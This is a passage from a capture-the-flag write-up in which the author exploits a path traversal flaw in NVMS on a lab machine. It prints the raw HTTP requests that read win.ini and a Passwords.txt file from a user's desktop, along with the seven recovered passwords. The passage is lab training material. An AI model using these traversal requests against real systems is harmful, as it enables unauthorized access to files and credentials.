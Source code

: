     POC
    ---------

    GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
    Host: 12.0.0.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
    Connection: close

    Response
    ---------

    ; for 16-bit app support
    [fonts]
    [extensions]
    [mci extensions]
    [files]
    [Mail]
    MAPI=1

We fire up burp and make the same request as in the POC (changing the host
obviously). We got the `win.ini` file.

We then change our request to get the content of the `Passwords.txt` file on
Nathan's desktop which give us seven passwords.

    :::text
    GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
    Host: 10.10.10.184
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
    Connection: close

    HTTP/1.1 200 OK
    Content-type: text/plain
    Content-Length: 156
    Connection: close
    AuthInfo:

    1nsp3ctTh3Way2Mars!
    Th3r34r3To0M4nyTrait0r5!
    B3WithM30r4ga1n5tMe
    L1k3B1gBut7s@W0rk
    0nly7h3y0unGWi11F0l10w
    IfH3s4b0Utg0t0H1sH0me
    Gr4etN3w5w17hMySk1Pa5$

We try this passwords against the NVMS authentication form but without success.

## SSH
